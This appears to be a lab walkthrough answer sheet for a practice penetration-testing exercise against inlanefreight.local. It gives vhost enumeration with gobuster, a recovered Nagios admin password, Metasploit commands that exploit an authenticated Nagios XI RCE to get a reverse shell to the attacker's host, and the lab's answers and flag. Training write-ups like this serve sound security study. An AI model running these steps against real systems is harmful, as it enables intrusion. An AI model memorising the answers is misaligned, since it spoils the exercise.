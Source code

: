 1. What is the URL of the WordPress instance?
```
sudo nano /etc/hosts
gobuster vhost -u http://inlanefreight.local -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```
- Add vhosts and inlanefreight.local to /etc/hosts

**http://blog.inlanefreight.local

2. What is the name of the public GitLab project?
**Virtualhost

3. What is the FQDN of the third vhost?
**monitoring.inlanefreight.local

4. What application is running on this third vhost?
**nagios

5. What is the admin password to access this application?
- Register an account in the gitlab instance
**oilaKglm7M09@CPL&^lC

6. Obtain reverse shell access on the target and submit the contents of the flag.txt file.
```
sudo msfconsole
use exploit/linux/http/nagios_xi_plugins_filename_authenticated_rce
set LHOST 10.10.14.6
set SRVHOST 10.10.14.6
set VHOST monitoring.inlanefreight.local
set PASSWORD oilaKglm7M09@CPL&^lC
set RHOSTS 10.129.201.90
run
ls
cat f5088a862528cbb16b4e253f1809882c_flag.txt
```
**afe377683dce373ec2bf7eaf1e0107eb
